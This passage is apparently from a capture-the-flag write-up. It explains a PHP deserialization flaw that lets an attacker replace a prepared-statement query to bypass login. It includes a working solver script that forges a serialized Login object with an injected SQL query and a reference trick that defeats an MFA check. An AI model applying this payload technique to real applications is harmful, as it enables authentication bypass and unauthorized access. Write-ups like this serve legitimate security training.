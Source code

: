 Note that the `SQL` class has a `$query` attribute that is used in the prepared statement. By simply modifying the `$query`, we can perform an SQL injection.

To bypass the authentication we simply need a valid result set with `email` and `password` columns.

We can use something like

```sql
SELECT 'dead@beef' AS email, 'l33t' AS password
```

which will return one row with `email` and `password` columns.

Remember the `bind_param()` check? We still need to make sure that there are two parameters in the prepared statement, so we will do something like this:

```sql
SELECT ? AS email, ? AS password
```

any other valid query that makes use of two parameters would work too.

### Exploit

Using the previously discussed knowledge, it is now trivial to create a solver script that gives us the required base-64 encoded serialized data.

```php
class SQL
{
    protected $query="SELECT ? AS email, ? AS password";
}

class User
{
    public $email = 'dead@beef';
    public $password = 'l33t';
    protected $sql;

    function __construct()
    {
        $this->sql = new SQL();
    }
}

class Login
{
    public $user;
    public $mfa_token;
    protected $_correctValue;

    function __construct()
    {
        $this->user = new User();
        $this->mfa_token = &$this->_correctValue;
    }
}

$login = new Login();
var_dump($login);
echo urlencode(base64_encode(serialize($login)));
```
